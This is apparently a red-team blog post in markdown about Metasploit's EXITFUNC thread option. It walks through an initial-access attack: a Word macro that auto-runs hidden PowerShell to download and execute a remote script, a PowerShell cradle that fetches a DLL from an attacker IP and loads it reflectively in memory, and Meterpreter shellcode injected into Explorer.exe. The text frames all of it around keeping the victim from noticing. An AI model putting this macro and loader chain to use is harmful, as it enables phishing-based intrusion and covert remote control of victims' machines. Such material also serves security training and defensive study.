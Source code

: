 ```yaml
---
title: EXITFUNC Thread in Metasploit
classes: wide
header: '{"teaser":"/assets/images/2023-12-29-EXITFUNC in Metasploit/20231229133245411.png"}'
ribbon: Red
excerpt: Exploring the benefits of using Exitfunc thread in Metasploit
description: Exploring the benefits of using Exitfunc thread in Metasploit
categories:
  - MalwareDev
toc: true
toc_sticky: true
toc_label: About This Post
toc_icon: book
tags:
  - ProcessInjection
  - Macro
  - ReflectiveLoad
---
```

<br>
# EXITFUNC Thread in Metasploit 

In Metasploit, the EXITFUNC option is used to specify the method that the payload should use when exiting or cleaning up after exploitation. This option is relevant when you're using a payload that creates a separate thread or process on the target system. 

We will talk about the difference between **`thread`** and **`process`** for EXITFUNC in Metasploit is the termination behavior after the payload has been executed.

-  **Thread:** When EXITFUNC is set to thread, the payload terminates the thread in which it is executed using the ExitThread call. This option is often used for stealthier operations, as the malicious code runs within the context of an existing process.

```
set EXITFUNC thread
```

-  **Process:** By default the value of EXITFUNC is set to "Process". When EXITFUNC is set to process, the payload terminates the process in which it is executed using the ExitProcess call. This results in the termination of the entire process, including any other threads or payloads running within it. 

```
set EXITFUNC process
```

# Case scenario using Thread:

Suppose we're trying to gain initial access from the target victim. We will perform a few techniques to make our payload live stealthy way and to avoid the Word document closing when te shellcode exits.

- Process injection (Explorer.exe) via DLL
- Powershell download cradle and Reflective Load in memory
- Macro

## Generating Payload

To generate a payload in C# format with the **`EXITFUNC=thread`** option using **`msfvenom`**, you can use the following command:

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229135728113.png)

## Process Injection 

Let's open the process we want to inject into, which is **Explorer.exe** in this case. Next, we need to allocate memory in the target process to store our shellcode.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229135656900.png)

We don't want to to deliver our executable file to victim, we will perform DLL injection with C#. By compiled, we got our Injector.dll.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229141506691.png)

## Reflective Load in Memory

It will loads a DLL using the reflective loading technique, which means that the DLL is loaded directly into memory without being saved to disk. Saving the below powershell script into a file.

```powershell
$scrpit = (New-Object System.Net.WebClient).DownloadData('http://192.168.19.134/Injector.dll')
$assembly = [System.Reflection.Assembly]::Load($script)
$class = $assembly.GetType("Loader.Program")
$method = $class.GetMethod("Runner")
$method.Invoke(0, $null)
```

## Macro with AutoOpen Document

A macro with **AutoOpen** Document is a feature in Microsoft Word that automatically executes a macro when victim open a document and click on **enable content**.

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.19.134/update.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Let's start our HTTP server for hosting our Powershell script and dll files. Moreover, let's configure our Metasploit multi-handler with the EXITFUC thread.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229142749223.png)

## Catching the shell

Once the victim clicks enable content on the Word document, it will attempt to download our Powershell script and load the dll in memory.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229143329219.png)

We can see that our Meterpreter is running inside **Explorer.exe**. By this even if the victim closed the Word document, our shell is still alive.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/20231229145059914.png)

# Benefit our using Thread:

If you want to exit your meterpreter session or if it dies for some reason, it won't terminate the explorer.exe process, which may cause the victim to notice a black screen pop up. 

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/2023-12-29 15-53-30.gif)

If we choose to use the Process instead of the Thread, it may cause the victim to notice a black screen pop up or the home screen to hang for a moment due to the explorer.exe process restart. It's important to consider the OPSEC on the victim's system when deciding which method to use.

You can notice that the process **Explorer.exe** will change due to it restarted the process.

![trick](/assets/images/2023-12-29-EXITFUNC Thread in Metasploit/2023-12-29 15-50-14.gif) 

# Conclusion

In conclusion, understanding the difference between threads and processes when it comes to Exitfunc in Metasploit is crucial for effective exploitation and post-exploitation activities.

The choice between using a **thread-based** or **process-based** Exitfunc in Metasploit depends on the specific scenario and desired outcome. It is crucial to carefully consider each option to ensure successful exploitation and post-exploitation activities while minimizing the risk of detection